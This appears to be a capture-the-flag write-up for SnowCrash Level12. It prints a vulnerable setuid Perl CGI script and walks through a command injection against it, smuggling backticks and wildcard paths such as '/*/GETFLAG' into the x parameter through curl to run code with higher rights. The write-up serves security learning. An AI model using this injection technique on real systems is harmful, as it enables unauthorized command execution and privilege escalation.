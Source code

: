 # Level12

## Research

```bash
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
level12@SnowCrash:~$ ./level12.pl
Content-type: text/html

..level12@SnowCrash:~$
```
Study `level12.pl`:
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

# A Perl subroutine or function is a group of statements that together performs a task. 
sub t {
  # y 
  $nn = $_[1];
  # x 
  $xx = $_[0];
# The operator =~ associates the string with the regex match and produces a 
# true value if the regex matched, or false if the regex did not match
# The tr operator in Perl translates all characters of 
# SearchList into the corresponding characters of ReplacementList.
# Syntax: tr/SearchList/ReplacementList/
# Do uppercase on x !
  $xx =~ tr/a-z/A-Z/;
# Substitution Operator or ‘s’ operator in Perl is used to substitute 
# a text of the string with some pattern specified by the user.
# Syntax: s/text/pattern
# \s Do a global search for whitespace characters in a string
# .* just means "0 or more of any character"
# remove all whitespaces !
  $xx =~ s/\s.*//;
# Variables of Array Datatype are preceded by an “at” (@) sign.
# egrep command searches for a text pattern, using extended regular expressions 
# standard error (stderr), to where programs can send their error messages.
# Standard output (stdout) can be screen or file depending on redirection
# 2>&1 redirect stderr to whatever value is set to stdout
# output (array) saves what is return on the stdout by the egrep command
# The threat must be here as all others line seems safe
# `` is for running command !
# grep " " run command inside !
# however getflag will become GETFLAG and won't work...
# ^ to find character missing in the string
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
# $_ = default variable in case no parameter is explicitly used
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

level12.l uses CGI on localhost:4646, it seems to take 2 arguments. Argument x will be put in uppercase and will be executed thanks to the \`\` quotes. Argument y seems to be useless for our purpose.

We saw in a previous level that we can pass parameters to CGI. So let's try to pass getflag.

Problem: if we pass just getflag, the regex will turn it into GETFLAG and the command won't be run properly. We need to find a way of passing a command without it being transformed in uppercase. Maybe we can run a script instead of a command. 
Using wildcards will prevent the regex to turn /tmp/ into /TMP/ wich doesn't exist.

```
echo "getflag" > /tmp/GETFLAG
touch /tmp/CC
chmod 777 /tmp/GETFLAG
```
```
curl localhost:4646/?x="`/*/GETFLAG>/*/CC`"
```

This does not work, it launch getflag without the appropriate rights...

1h30 later with lot of different useless tries...
It was not the good quotes, and weird to do it like this, it is cleaner to do the > part into the script.
https://stackoverflow.com/questions/6697753/difference-between-single-and-double-quotes-in-bash
https://www.howtogeek.com/howto/29980/whats-the-difference-between-single-and-double-quotes-in-the-bash-shell/

#@ Solution

```
cat /tmp/GETFLAG
#!/bin/bash
getflag > /tmp/flag

touch /tmp/flag
chmod 777 /tmp/GETFLAG

curl localhost:4646?x='`/*/GETFLAG`' 
```
Gives us the flag.
